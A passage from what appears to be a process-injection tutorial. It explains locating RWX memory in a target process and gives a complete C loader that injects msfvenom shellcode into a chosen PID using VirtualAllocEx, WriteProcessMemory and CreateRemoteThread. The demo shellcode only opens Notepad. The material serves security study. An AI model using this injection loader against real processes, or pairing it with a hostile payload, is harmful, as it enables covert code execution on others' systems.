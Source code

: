 Alright, RWX memory implementation is fairly straightforward for our intended purpose. It involves searching a process's private virtual memory space (the userland virtual memory space) for a memory section marked as _PAGE_EXECUTE_READWRITE_. If such a space is found, it's returned. If not, the next search address is adjusted to the subsequent memory region (_BaseAddress_ + _Memory Region_).

To finalize this for code execution, our shellcode must then be relocated to that discovered memory region and executed. An efficient way to achieve this is to resort  WinAPI calls, similar to what we demonstrated in the first technique. However, it's essential to consider the drawbacks of that approach, as discussed above.

```c
int main(int argc, char * argv[])  
{  
    // msfvenom -p windows/x64/exec CMD=notepad.exe -f c  
    unsigned char shellcode[] =  
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x6e\x6f\x74\x65\x70\x61\x64\x2e\x65\x78\x65\x00";
        
    int newPid = atoi(argv[1]);  
    printf("Injecting into pid %d\n", newPid);  
  
    HANDLE pHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, (DWORD)newPid);  
    if (!pHandle)  
    {  
        printf("Invalid Handle\n");  
        exit(1);  
    }  
    LPVOID remoteBuf = VirtualAllocEx(pHandle, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);  
    if (!remoteBuf)  
    {  
        printf("Alloc Fail\n");  
        exit(1);  
    }  
    printf("alloc addr: %p\n", remoteBuf);  
    WriteProcessMemory(pHandle, remoteBuf, shellcode, sizeof(shellcode), NULL);  
    CreateRemoteThread(pHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuf, NULL, 0, NULL);  
    return 0;  
}
```
